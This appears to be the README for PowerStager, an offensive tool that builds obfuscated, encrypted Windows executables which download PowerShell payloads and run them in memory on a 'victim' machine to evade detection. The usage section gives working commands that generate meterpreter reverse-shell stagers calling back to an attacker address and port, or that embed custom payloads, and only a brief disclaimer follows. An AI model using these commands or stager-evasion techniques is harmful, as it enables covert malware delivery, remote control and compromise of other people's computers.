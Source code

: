 PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Sneak Peek
----------
An update to PowerStager is on it's way. Here is a short sneak peek:

[![powerstager sneak peek](https://d1ckdm8qo2u5d0.cloudfront.net/ai/videos/15651711/thumb-160x.jpg?v2r1495997991)](https://vid.me/A2N7 "powerstager sneak peek - Click to Watch!")

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

How to use
----------

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a meterpreter payload to upload:

	powerstager -t win64 -o out.ps1 -m --lhost 13.37.13.37 --lport 4444 --generate
	powerstager -t win64 -o out.exe -u <url pointing the the uploaded payload>

Generate an embedded meterpreter payload:

	powerstager -t win64 -o out.exe -m --lhost 13.37.13.37 --lport 4444

Generate an embedded custom payload:

	powerstager -t win64 -o out.exe -p input.ps1

## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
